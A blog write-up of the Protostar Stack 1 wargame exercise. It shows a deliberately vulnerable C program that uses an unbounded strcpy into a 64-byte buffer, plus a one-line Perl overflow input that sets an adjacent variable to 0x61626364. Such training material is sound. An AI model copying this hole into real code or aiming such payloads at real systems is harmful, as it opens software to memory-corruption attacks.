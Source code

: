 ```yaml
---
title: "Exploit Exercises - Protostar Stack 1"
date: "2011-12-13T06:12:00-05:00"
comments: true
highlight: "true"
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
aliases:
 - "/2011/12/exploit-exercises-protostar-stack-1.html"
 - "/2011/12/13/exploit-exercises-protostar-stack-1"
 - "/2011/12/14/exploit-exercises-protostar-stack-1"
---
```


[This](http://exploit-exercises.com/protostar/stack1) challenge is very similar to the previous one.  The main difference is that instead of just validating that the "modified" value was changed, it validates that it was changed to a specific value, 0x61626364, or "dcba" in ASCII.

<!-- more -->

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 volatile int modified;
 char buffer[64];

 if(argc == 1) {
  errx(1, "please specify an argument\n");
 }

 modified = 0;
 strcpy(buffer, argv[1]);

 if(modified == 0x61626364) {
  printf("you have correctly got the variable to the right value\n");
 } else {
  printf("Try again, you got 0x%08x\n", modified);
 }
}
```

To complete this, we simply run:

```
user@protostar:/opt/protostar/bin$ ./stack1 `perl -e 'print "A"x64 . "dcba"'`
you have correctly got the variable to the right value
```

This will fill up the "buffer" with 64 "A"s, and overflow "dcba" into the "modified" variable.
